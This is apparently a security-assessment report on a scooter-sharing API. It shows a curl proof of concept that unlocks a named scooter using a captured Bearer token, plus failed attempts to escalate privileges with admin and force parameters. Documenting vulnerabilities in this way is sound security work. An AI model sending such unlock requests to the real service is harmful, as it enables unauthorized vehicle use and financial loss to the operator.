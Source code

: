 ### VULNERABILITY #2: Unauthorized Scooter Access
**Severity**: **CRITICAL**  
**CVSS Score**: 8.5 (High)

#### Description
The API allows unauthorized unlocking of scooters using captured Bearer tokens without proper permission validation for previously accessed scooters.

#### Proof of Concept
```bash
# Successful attack on TUF061
curl -X POST https://api.knotcity.io/api/application/vehicles/unlock \
  -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..." \
  -H "Content-Type: application/json" \
  -d '{
    "serial_number": "TUF061",
    "lat": 48.8566,
    "lng": 2.3522
  }'

# Response: 200 OK
{"code":0,"data":{"external_locks":[]}}
```

#### Impact
- **Unauthorized scooter access** - Users can unlock scooters they previously accessed
- **Session persistence** - Tokens remain valid for previously accessed scooters
- **Financial loss** - Unauthorized usage without payment

---

## 🛡️ Security Boundaries Discovered

### SECURITY #1: Scooter-Specific Authorization
**Status**: **WORKING PROPERLY**

#### Description
The system properly restricts access to scooters that the user has not previously accessed, even with admin privilege escalation attempts.

#### Evidence
```bash
# SXB306 unlock attempt with admin privileges
POST /api/application/vehicles/unlock?admin=true
# Response: 403 Forbidden
{"code":13}

# SXB306 unlock attempt with force privileges  
POST /api/application/vehicles/unlock?force=true
# Response: 403 Forbidden
{"code":13}
```
